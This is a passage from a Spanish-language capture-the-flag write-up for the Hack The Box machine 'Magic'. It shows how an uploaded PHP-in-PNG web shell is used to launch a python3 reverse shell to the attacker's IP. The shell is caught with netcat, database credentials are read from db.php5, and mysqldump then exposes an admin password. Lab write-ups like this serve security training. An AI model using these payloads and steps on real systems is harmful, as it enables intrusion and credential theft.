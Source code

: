 Luego cargamos la imagen en el sistema. Para tener la shell reversa, escribimos lo siguiente en la url y antes de darle enter, debemos ponernos en modo escucha con netcat en el puerto que hayamos establecido

```
http://10.10.10.185/images/uploads/hack.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
┌──[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #nc -nlvp 9001                                                                                                                    
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.185] 58698
/bin/sh: 0: can't access tty; job control turned off                                                                                   
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ ls
7.jpg      logo.png            magic-hat_23-2147512156.jpg  prueba.php.jpg
```

Buscando archivo sensibles que nos de información para las credenciales del usuario, encontramos el archivo `db.php5` y encontramos lo siguiente

```php
www-data@ubuntu:/var/www/Magic/images/uploads$ cd /var/www/Magic
www-data@ubuntu:/var/www/Magic$ ls
assets  db.php5  images  index.php  login.php  logout.php  upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5

<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
}
```

Tratamos de cambiarnos al usuario `theseus` con las credenciales encontramos pero la contraseña es incorrecta.

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
Password: iamkingtheseus

su: Authentication failure
```

Usando la herramienta `sqldump` podemos hacer el volcado de la base de datos con el nombre de usuario y contraseña de la siguiente forma

```bash
www-data@ubuntu: mysqldump --databases Magic -utheseus -piamkingtheseus

-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
-- Host: localhost    Database:
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1
-- Current Database: `Magic`
-- Dumping data for table `login`

LOCK TABLES `login` WRITE;

INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');

```